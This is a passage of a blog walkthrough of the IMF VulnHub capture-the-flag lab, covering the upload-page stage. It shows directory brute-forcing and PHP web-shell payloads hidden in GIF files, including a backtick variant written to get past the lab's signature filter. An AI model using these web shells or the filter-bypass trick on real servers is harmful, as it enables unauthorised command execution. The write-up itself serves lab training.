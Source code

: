__http://192.168.175.133/imfadministrator/uploadr942.php__

This is the upload page. However, we still don't know where the file is uploaded to and what its name in the upload directory. Hence, we go hunting  for an upload directory;

$ dirb http://imf/imfadministrator

![screenshot 5.png](/assets/images/posts/imf-vulnhub-walkthrough/screenshot 8.png)

`http://imf/imfadministrator/uploads/` looks interesting

Navigating to this address returns a 403. Hence, it exists and access to it is restricted.

Now let try to do some uploads,

__.php, .txt, .html, .pdf - rejected__

__.jpg, .pdf, png, gif - all accepted__

Over we go to Burp to manipulate. First create the gif as follows:
```
$ echo 'FFD8FFEo' | xxd -r -p > my_img.gif

$ echo '<?php phpinfo(); ?>' >> my_img.gif

```
All these payloads failed.
```
$ echo <?php echo shell_exec($_GET['e']); ?> >>  my_img.gif
Error: CrappyWAF detected malware. Signature: exec function php detected

$ echo <?php echo passthru($_GET['cmd']); ?> >>  my_img.gif
Error: CrappyWAF detected malware. Signature: passthru php function detected

$ echo '<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>' >>  my_img.gif

Error: CrappyWAF detected malware. Signature: system php function detected
```
Pentest monkey php reverse shell
Bursted as well
  `Throws fsockopen detected`

We know that for php or generally linux;
echo `ls` works as well as ls.
We can use `backticks` for execution. Hence we'll need to re-write the php payload
The following worked

We upload the following php script. As stated earlier we create a gif starting with gi89a. Then append the payload;
```
$ echo <?php $cmd=$_GET['cmd']; echo `$cmd`; ?> >>  my_img.gif
or
$ echo <?php $cmd=$_REQUEST['cmd']; echo `$cmd`; ?> >>  my_img.gif
```

To execute the commands we enter the following;


[1]: https://www.vulnhub.com/entry/imf-1,162/
[2]: https://twitter.com/@g3ck0m
[3]: https://www.vulnhub.com/
[4]: https://github.com/21y4d/nmapAutomator